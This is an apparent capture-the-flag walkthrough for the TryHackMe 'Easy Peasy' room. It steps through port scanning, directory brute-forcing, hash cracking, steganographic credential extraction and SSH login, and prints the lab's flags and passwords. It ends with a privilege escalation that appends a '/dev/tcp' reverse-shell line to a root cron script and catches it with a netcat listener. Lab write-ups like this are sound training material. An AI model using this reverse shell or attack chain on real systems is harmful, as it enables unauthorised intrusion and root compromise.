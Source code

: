 # Easy Peasy

**Room Link:** [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 5698 and 65524 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18) (9).png" alt=""><figcaption></figcaption></figure>



## Flag #1

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" |base64 -d
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Flag #2

**Kali**

```
curl http://$VICTIM:65524/robots.txt
```



<figure><img src="../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>



[https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Flag #3&#x20;

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

## Hidden Directory

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>



**CyberChef**: [https://gchq.github.io/CyberChef/#recipe=From\_Base62('0-9A-Za-z')\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From\_Base62\('0-9A-Za-z'\)\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>



## Crack the Hash

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python hash-id.py 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Format turned out to be GOST

**Kali**

```
john --wordlist=easypeasy.txt --format=GOST hash.txt
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



## SSH Password

**Kali**

```
wget http://$VICTIM:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
Password: mypasswordforthatjob
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.rapidtables.com/convert/number/binary-to-ascii.html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh boring@$VICTIM:6498
Password: iconvertedmypasswordtobinary
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.dcode.fr/caesar-cipher](https://www.dcode.fr/caesar-cipher)

<figure><img src="../../.gitbook/assets/image (9) (5).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cat /etc/crontab
cd /var/www/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "sh -i >& /dev/tcp/$KALI/1337 0>&1" >> .mysecretcronjob.sh
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>



















































